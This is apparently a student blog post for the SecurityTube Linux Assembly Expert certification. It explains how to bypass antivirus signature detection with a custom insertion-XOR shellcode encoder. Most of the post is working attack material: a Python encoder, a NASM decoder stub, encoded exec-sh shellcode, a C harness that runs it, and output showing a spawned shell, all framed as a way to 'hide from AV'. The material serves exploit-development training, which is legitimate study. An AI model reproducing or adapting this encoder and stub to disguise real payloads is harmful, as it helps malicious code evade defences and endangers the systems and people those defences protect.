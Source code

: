 
# Custom encoder for bypassing signature based detection

Malware detection techniques has improved a lot over the years. Today companies are investing in machine learning methods for detecting malware, which sounds pretty cool if you ask me. However, there is one method that has been used since the first anti-virus software, which is signature based detection.

When disassembling a program you can analyze the assembly instructions in order to understand the program from the lowest level. It's also possible from the assembly code to identify a set of unique instructions that identifies a specific program. These unique instructions form the signature. The instructions can be anything that identifies a specific and unique behaviour in the program. An example could be a decryption routine that identifies perhaps a decryption stub used for decrypting shellcode.

How do we bypass signature detections? Well, we change the signature. You either do this manually or you write an encoder which takes shellcode as input and outputs an encoded shellcode, which as zero known signatures for it. In this article, I will present a very easy and trivial encoding scheme for from AVs :)

## The Algorithm

The scheme I have chosen is a simple insertion encoder with XOR twist. Given a piece of shellcode, the encoder will insert a value between 1-255 as a prefix for each shellcode byte. This value will then be XORed with the shellcode byte. This method has some drawbacks:

- It will double the shellcode length 
- Once the shellcode has been decoded, a bunch of garbage data will exist follow1ing the shellcode. This means that if your shellcode does not return, the garbage data will be executed which leads to a segfault.

For demonstrating how bypassing signature detection looks like, this method will suffice.

## The Encoder

I have chosen to write the encoder in Python because it's very easy to implement these kinds of scripts in it.

```python
import sys
import random

def encode(shellcode):
    """
    shellcode: string

    returns: string
    """
    shellcode_output = ""
    shellcode_list = []
    for i in shellcode.split("\\")[1:]:
        xor_key = random.randint(1,254)
        hex_key = hex(xor_key)
        byte = int(i.replace("x", "0x"), 16)
        shellcode_list.append(hex_key)
        shellcode_list.append(hex(xor_key ^ byte))

    return ",".join(shellcode_list)

def decode(encoded_shellcode):
    """decode()
    encoded_shellcode: string

    returns: string
    """
    shellcode_list = encoded_shellcode.split(",")
    it = iter(shellcode_list)
    decoded_shellcode = []
    for x in it:
        decoded_shellcode.append(hex(int(x, 16) ^ int(next(it), 16)))
    return ",".join(decoded_shellcode)

def main(shellcode):
    """main()
    shellcode: string
    """
    orginal_shellcode = r"{}".format(shellcode)
    new_shellcode = encode(orginal_shellcode)
    print("[+] Your encoded shellcode: ")
    print(new_shellcode)
    print("\n[+] Decoded shellcode:")
    decoded_shellcode = decode(new_shellcode)
    print(decoded_shellcode)
    assert decoded_shellcode.replace("0x","\\x").replace(",","") == orginal_shellcode.replace("\\x0", "\\x")


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 wrapper.py <shellcode>")
        sys.exit(0)

    if len(sys.argv) == 2:
        main(sys.argv[1])

```

To use the program, simply input your shellcode and receive the encoded version:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ python3 wrapper.py "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encoded shellcode:
0x77,0x8b,0x4a,0xf1,0xdb,0xc0,0x5,0x94,0xe7,0x2a,0x43,0x8b,0x93,0x78,0x73,0x7f,0x38,0x66,0xe5,0xb3,0x14,0x25,0x2d,0x33,0x6b,0xc6,0xc5,0xc4,0x56,0x95,0x8d,0x8,0x2f,0xef,0xd,0x78,0x9f,0x68,0x7a,0xb9,0xd7,0x3f,0xf5,0x1a,0xba,0x45,0x2,0xfd,0x93,0x6c,0xe3,0xc9,0xee,0xad,0x93,0xc,0xb5,0x15,0xe3,0xc1,0xe,0x42,0xbd,0xee,0xf8,0xa1,0xaf,0x7d,0x65,0xd8,0x24,0x98,0x86,0x7d,0xb1,0xfa,0xf8,0xb3,0x96,0xb7,0x2a,0xe0,0x27,0x65,0x69,0x13,0x3a,0x5c,0x55,0xc8,0x1,0x5e,0x59,0xe9,0x7a,0x9c,0xd7,0x9,0xb2,0xed,0xc5,0x8f,0xd4,0x33,0xfa,0x24

[+] Decoded shellcode:
0xfc,0xbb,0x1b,0x91,0xcd,0xc8,0xeb,0xc,0x5e,0x56,0x31,0x1e,0xad,0x1,0xc3,0x85,0xc0,0x75,0xf7,0xc3,0xe8,0xef,0xff,0xff,0xff,0x2a,0x43,0x9f,0xa0,0x22,0x4c,0x53,0x59,0xd2,0xbd,0xbc,0xfb,0x4b,0x4b,0x21,0xca,0x42,0x7a,0x66,0x9d,0x5f,0xb0,0xe6,0xde,0x5f,0x4a,0xe7,0xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$
```

The shellcode used in the example above is a simple exec-sh shellcode which will drop into an sh shell.

## Writing the decoder stub

It's time to write the decoder stub. The following is a simple program for looping through the shellcode, XORing bytes, reconstructing the original shellcode.

```asm
;-------------------------------------
;
; Author: dubs3c
;
; Purpose:
; Insertion Encoder, hide from AV :)
;
;-------------------------------------

global _start

section .text
_start:
    jmp short call_shellcode        ; jmp-call-pop method

decoder:
    pop esi                         ; Get the address of EncodedShellcode
    lea edi, [esi + 1]              ; edi points to the next byte
    xor eax, eax                    ; zero out register
    xor ebx, ebx                    ; zero out register
    xor edx, edx                    ; zero out register
    xor ecx, ecx                    ; zero out register

decode:
    mov bl, byte [esi + eax]        ; Get the byte at esi + eax
    xor bl, 0xaa                    ; XOR with 0xaa to check if we are at the end of the shellcode
    jz short EncodedShellcode       ; If we are at the end, we are done, jump to shellcode
    mov dl, byte [esi + eax]        ; Get the byte at esi + eax
    mov bl, byte [esi + eax + 1]    ; Get the byte at esi + eax + 1
    xor dl, bl                      ; XOR to get orignal shellcode byte
    mov byte [esi + ecx], dl        ; Overwrite EncodedShellcode at byte esi + ecx with the result
    add al, 2                       ; Add 2 to eax to jump to the next pair of bytes
    inc ecx                         ; increment ecx which byte to overwrite in EncodedShellcode
    jmp short decode                ; loop back to decode

call_shellcode:
    call decoder
    EncodedShellcode: db 0x1,0xfd,0xa2,0x19,0x60,0x7b,0x7d,0xec,0xac,0x61,0xac,0x64,0x31,0xda,0x2b,0x27,0xb1,0xef,0xd,0x5b,0x66,0x57,0xa5,0xbb,0xc7,0x6a,0xac,0xad,0x41,0x82,0x7a,0xff,0x5,0xc5,0xf4,0x81,0xf1,0x6,0x99,0x5a,0x54,0xbc,0xac,0x43,0x28,0xd7,0x4,0xfb,0x1b,0xe4,0x11,0x3b,0x35,0x76,0xdc,0x43,0x57,0xf7,0x4f,0x6d,0xe1,0xad,0xd7,0x84,0x6c,0x35,0x62,0xb0,0x7b,0xc6,0x7f,0xc3,0x80,0x7b,0x1f,0x54,0x45,0xe,0xa9,0x88,0x97,0x5d,0x84,0xc6,0xe9,0x93,0x6c,0xa,0x6f,0xf2,0x7a,0x25,0xe0,0x50,0x88,0x6e,0x3b,0xe5,0x56,0x9,0x6f,0x25,0xae,0x49,0xe3,0x3d,0xaa,0xaa
```

The program can be assembled with nasm:

```bash
nasm -f elf32 -o build/ass4.o ass4.nasm
ld -z execstack -N -o build/ass4 build/ass4.o
```

Because I have specified the `-N` option, the code section is now writable and we can run the executable.
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/ass4
$ whoami
dubs3c
$
```

We can also extract the shellcode and use e.g. in a stager:
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ objdump -d ./build/ass4|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"
```

The shellcode could be embedded in a somple C program that will execute the decoder program, containing our exec-sh shellcode.

```c
#include<stdio.h>
#include<string.h>


unsigned char shellcode[] = "\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"; 

main()
{
        printf("Shellcode length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

The program can be compiled like this:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ gcc -fno-stack-protector -z execstack shellcode.c -o build/shellcode
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/shellcode
Shellcode length:  152
$ whoami
dubs3c
$
```

That's it, happy hacking :)

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490


